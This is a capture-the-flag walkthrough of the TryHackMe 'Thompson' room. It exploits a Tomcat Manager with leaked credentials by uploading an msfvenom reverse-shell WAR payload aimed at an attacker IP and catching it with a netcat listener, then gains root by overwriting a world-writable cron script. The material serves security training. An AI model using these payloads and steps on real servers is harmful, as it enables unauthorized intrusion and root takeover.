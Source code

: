 # Thompson

[Thompson](https://tryhackme.com/room/bsidesgtthompson) is another beginner-friendly room on TryHackMe.com based on exploitation of AJP (Apache JServ Protocol). If done right completing this room won't take more than 15 to 20 minutes as it is pretty easy.

### Initial Enumeration

The first that we must do is run an nmap scan against the machine's IP address in order to determine the various ports open on the machine.

```
┌─[tester@parrot-virtual]─[~/Downloads/thompson]
└──╼ $nmap -A 10.10.94.207
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-20 22:27 IST
Nmap scan report for 10.10.94.207
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.99 seconds
```

We can see that on port 8080 Apache Tomcat is running which suggests we can try to access it via web browser at `<ip_address>:8080`.

![homepage](./.images/homepage.png)

And there we land on the Apache Tomacat default page. We can try to access the Manager App as from there we can access Tomcat's dashboard. But when we click on that link, it asks us for username and password which we don't know.

![ask_creds](./.images/ask_creds.png)

We can try some default credentials like `admin:admin` or any other but they don't work. But when we click on the cancel button it leads us to an unauthorized access error page.

![unauth](./.images/unauth.png)

And on the same page we can find the username and password which we can use to acess the application manager.

![app_mger](./.images/app_manager.png)

Now, we have access to the application manager. One thing to note is that in the application manager we have an option to upload a WAR file. So, we can create a custom payload using `msfvenom`, upload it on the server and gain reverse shell to the machine. 

We can search on the internet beforehand to be sure that this method works. One such article can be found [here](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/). So, now we can move ahead and create a payload using `msfvenom`.

```
┌─[tester@parrot-virtual]─[~/Downloads/thompson]
└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f war > shell.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
```

This command basically creates a reverse shell payload with the local host IP address and local port on which it should connect, and stores it in a `war` file.

Switches used:

| Switch | Function                                                     |
| ------ | ------------------------------------------------------------ |
| -p     | Determine the payload that is to be used                     |
| -f     | Determine the output file type                               |
| LHOST  | IP where the victim machine should connect (Attacker's IP address) |
| LPORT  | Port on which the victim machine should connect (Where attacker would be listening) |

Now, we can upload this war file through the application manager.

![war_upload](./.images/war_upload.png)

Once uploaded, we can access this file at `<ip_address>:8080/shell`. Note that before access file start a listener on the attacker machine using the command `nc -nvlp 4444`. And as soon as the file has been access we get a reverse shell on our attacker machine:

```
┌─[tester@parrot-virtual]─[~]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.10.94.207] 33530
whoami
tomcat
pwd
/
```

Now, we can move around and look for the user flag in the `/home` directory.

```
cd /home
ls -la
total 12
drwxr-xr-x  3 root root 4096 Aug 14  2019 .
drwxr-xr-x 22 root root 4096 Aug 14  2019 ..
drwxr-xr-x  4 jack jack 4096 Aug 23  2019 jack
cd jack
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Nov 20 09:39 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
cat user.txt
```

And there we get the user flag.

### Privilege Escalation

The next task is to obtain the root flag. Also, in user jack's directory we can see an executable file `id.sh`. We can try to check what is it function as it appears to be a bit suspicious.

```
cat id.sh
#!/bin/bash
id > test.txt
```

It appears that it read the `id` and writes it down to a file named `test.txt`. This text file is also present in jack's directory, so we can read it and get to know as what user privilege this shell script is being executed.

```
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

The content of `text.txt` makes it clear that this script is being executed with `root` privileges. So, all we need to do is modify the content of `id.sh` to read the root flag and write it down to `test.txt`. This can be done using a simple `echo` command:

```
echo "
#!/bin/bash
cat /root/root.txt > text.txt" > id.sh
cat id.sh

#!/bin/bash
cat /root/root.txt > text.txt
```

Now, as this is being run by a cronjob we must wait for some time and read the `test.txt` file to get out root flag.



### Reference Links

1. TryHackMe-Thompson: https://tryhackme.com/room/bsidesgtthompson
2. Exploiting Tomcat Manager: https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/